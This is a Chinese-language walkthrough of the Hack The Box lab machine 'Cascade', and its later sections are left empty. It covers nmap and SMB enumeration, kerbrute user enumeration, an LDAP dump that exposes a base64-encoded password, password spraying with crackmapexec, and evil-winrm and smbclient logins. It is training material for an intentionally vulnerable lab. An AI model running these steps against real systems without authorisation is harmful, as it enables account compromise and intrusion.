



# ✔️ Cascade

## 建立立足点

### 信息枚举

* 使用Nmap对目标系统进行开放端口扫描：

```bash
nmap -sC -sV -p- -oA cascade 10.129.63.72 --open
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* 先把域名写入host文件：

<figure><figcaption></figcaption></figure>

* 先尝试匿名登录，无收获：

```bash
smbclient -N -L 10.129.63.72
```

<figure><figcaption></figcaption></figure>

* 使用enum4linux枚举一下：

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* 发现一些用户名和密码策略，用户名可以先收集起来：

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* 找到了一些内置组信息和组成员关系：

<figure><figcaption></figcaption></figure>

* 还有本地组信息和组成员关系：

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* 域组和域成员关系：

<figure><figcaption></figcaption></figure>

* 用Kerbrute先跑一遍之前收集到的那个username.txt里面的有效用户名：

```bash
./kerbrute_linux_amd64 userenum --dc 10.129.63.72 -d cascade.local username.txt
```

<figure><figcaption></figcaption></figure>

* 15个中有11个有效，至此虽然收集到了很多有效用户名，但是并没有获取到任何密码凭证。本想尝试暴力破解，但是11个用户名感觉不太可能，所以重新开始枚举，这里学习了一个新工具windapsearch，是用来通过LDAP查询来枚举目标中的用户、组、计算机等信息的（也可以用常规的ldapsearch进行枚举）：

```bash
./windapsearch.py -U --full --dc-ip 10.129.63.72
```

<figure><figcaption></figcaption></figure>

* 在其输出信息中找到了用户ryan的凭证信息，但是密码是被编码过的：<mark style="color:red;">**ryan : clk0bjVldmE=**</mark>

<figure><figcaption></figcaption></figure>

* 解码，得到明文密码：<mark style="color:red;">**rY4n5eva**</mark>

```bash
echo clk0bjVldmE= | base64 -d
```

<figure><figcaption></figcaption></figure>

### GET SHELL

* 拿到有效凭证后，直接使用evil-winrm获取shell，确认自己没有输错后，发现该凭证无效。

```bash
eviL-winrm -i 10.129.63.72 -u ryan -p rY4n5eva
```

<figure><figcaption></figcaption></figure>


这种情况就可以尝试密码重用的测试了，hackthebox很喜欢搞这种事情。


* 使用crackmapexec和刚才的username.txt和这个密码，进行密码喷洒：

```bash
crackmapexec smb 10.129.63.72 -u username.txt -p 'rY4n5eva'
```

<figure><figcaption></figcaption></figure>

* 果然找到了另一个使用该密码的用户：<mark style="color:red;">**r.thompson**</mark>
* 使用这个有效凭证用evil-winrm进行连接获取shell，还是失败：

<figure><figcaption></figcaption></figure>

* 那就换个地方用这个有效凭证，使用smbmap可以登录到该账户的共享，发现几个只读的共享：

```bash
smbmap -H 10.129.63.72 -u r.thompson -p rY4n5eva
```

<figure><figcaption></figcaption></figure>

* 可以逐个枚举看看，最感兴趣的是Data：

```bash
smbclient //10.129.63.72/Data --user r.thompson
```

<figure><figcaption></figcaption></figure>

* 逐个枚举发现/IT可以进去：

<figure><figcaption></figcaption></figure>


## 权限提升

### 本地信息收集


### ROOT



本例机器确实算中等难度，常规枚举后所得到的信息需要各种解码才能获取，在线的解码工具没什么用，从来没解出来过一次，解码命令行更好用。

(本例机器中途重置过，因此IP地址有变化，但其利用过程和结果不变)

